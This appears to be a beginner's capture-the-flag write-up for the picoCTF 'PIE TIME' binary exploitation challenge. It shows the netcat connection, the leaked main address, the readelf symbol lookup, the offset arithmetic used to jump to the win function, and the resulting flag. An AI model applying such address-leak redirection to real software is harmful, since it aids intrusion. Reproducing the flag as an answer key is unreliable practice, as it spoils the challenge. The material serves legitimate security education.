 # PIE TIME - Position Independent Executable Bypass and my 1st (Binary Exploitation)(https://play.picoctf.org/practice/challenge/490?page=1)!

**Challenge Description**  
Can you try to get the flag? Beware we have PIE! Connect to the program with netcat:

$ nc rescued-float.picoctf.net 55154

The program's source code can be downloaded [here](https://challenge-files.picoctf.net/c_rescued_float/9127b5d4702bd2d788c046f5a70326130d416c5812ffc8196ebb0337faf0d11a/vuln.c). The binary can be downloaded [here](https://challenge-files.picoctf.net/c_rescued_float/9127b5d4702bd2d788c046f5a70326130d416c5812ffc8196ebb0337faf0d11a/vuln)! (The links might not work as the URL changes whenever the instance is opened)

**Category**: Binary Exploitation  
**Difficulty**: Easy  

## Complete Newbie Perspective

As someone who:
- Just completed my first CTF challenge (a web exploitation one)
- Had zero knowledge about binary exploitation
- Didn't understand common vulnerabilities like buffer overflows, format strings, etc. or how to even identify/exploit them.
- Didn't even know what tools to use

Here's how I somehow solved this:

### The Blind Approach

1. **Total Confusion Phase xD**  
   - Ran `checksec` but didn't understand terms like "RELRO", "Canary", or why "PIE" mattered
   - Saw the source code but didn't recognize potential vulnerabilities
   - Didn't know what `__globals__` or function pointers were

2. **Accidental Discovery(After 1 hour..)**  
   The program gave me two crucial hints:
   
   After I used:
   ```bash
   $ nc rescued-float.picoctf.net 55154
   ```

   It showed me:

   ```bash
   Address of main: 0x62d9dde6e33d
   Enter the address to jump to...```

   Which made me think: "Maybe I can make it go somewhere else?"

### Step-by-Step Solution (Through Trial & Error)

1. **Finding Function Locations**  
Stumbled upon using `readelf` after searching online:
```bash
readelf -s ./pie_time | grep -E 'main|win'```

Got:
```bash
66: 00000000000012a7   150 FUNC    GLOBAL DEFAULT   16 win
70: 000000000000133d   204 FUNC    GLOBAL DEFAULT   16 main```

2. Mathy Mathy time

    win is at 0x12a7

    main at 0x133d

    Offset = 0x12a7 - 0x133d = -0x96(Apparently, the relative addresses stay the same!And I know the main address!)

3. The Lucky Guess
    win_address = leaked_main (0x62d9dde6e33d) - 0x96 = 0x62d9dde6e2a7

Typed 0x62d9dde6e2a7 and miraculously got:
```bash
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_a267144a}```


